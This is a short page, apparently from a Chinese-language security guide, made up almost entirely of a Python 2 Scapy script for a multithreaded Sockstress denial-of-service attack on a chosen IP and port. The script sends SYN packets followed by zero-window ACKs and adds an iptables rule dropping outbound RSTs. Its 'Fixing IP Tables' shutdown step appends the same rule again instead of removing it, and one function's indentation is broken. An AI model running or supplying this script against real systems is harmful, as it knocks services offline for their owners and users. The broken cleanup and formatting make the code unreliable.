 以下脚本使用 Scapy 编写，用于对目标系统执行 Sockstress DoS 攻击。 以下脚本可用于测试漏洞服务：

```
#!/usr/bin/python
from scapy.all import * 
from time import sleep 
import thread 
import logging 
import os 
import signal 
import sys 
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

if len(sys.argv) != 4:   
    print "Usage - ./sock_stress.py [Target-IP] [Port Number] [Threads]"   
    print "Example - ./sock_stress.py 10.0.0.5 21 20"   
    print "Example will perform a 20x multi-threaded sock-stress DoS attack "   
    print "against the FTP (port 21) service on 10.0.0.5"  
    print "\n***NOTE***"
    print "Make sure you target a port that responds when a connection is made"   
    sys.exit()

target = str(sys.argv[1]) 
dstport = int(sys.argv[2]) 
threads = int(sys.argv[3])

## This is where the magic happens 
def sockstress(target,dstport):   while 0 == 0:      
    try:         
        x = random.randint(0,65535)         
        response = sr1(IP(dst=target)/TCP(sport=x,dport=dstport,flags ='S'),timeout=1,verbose=0)                        
        send(IP(dst=target)/ TCP(dport=dstport,sport=x,window=0,flags='A',ack=(response[TCP].seq + 1))/'\x00\x00',verbose=0)     
    except:         
        pass

## Graceful shutdown allows IP Table Repair 
def graceful_shutdown(signal, frame):   
    print '\nYou pressed Ctrl+C!'  
    print 'Fixing IP Tables'   
    os.system('iptables -A OUTPUT -p tcp --tcp-flags RST RST -d ' + target + ' -j DROP')   
    sys.exit()

## Creates IPTables Rule to Prevent Outbound RST Packet to Allow Scapy TCP Connections 
os.system('iptables -A OUTPUT -p tcp --tcp-flags RST RST -d ' + target + ' -j DROP') 
signal.signal(signal.SIGINT, graceful_shutdown)

## Spin up multiple threads to launch the attack
print "\nThe onslaught has begun...use Ctrl+C to stop the attack" 
for x in range(0,threads):   
    thread.start_new_thread(sockstress, (target,dstport))

## Make it go FOREVER (...or at least until Ctrl+C) 
while 0 == 0:   
    sleep(1) 
```
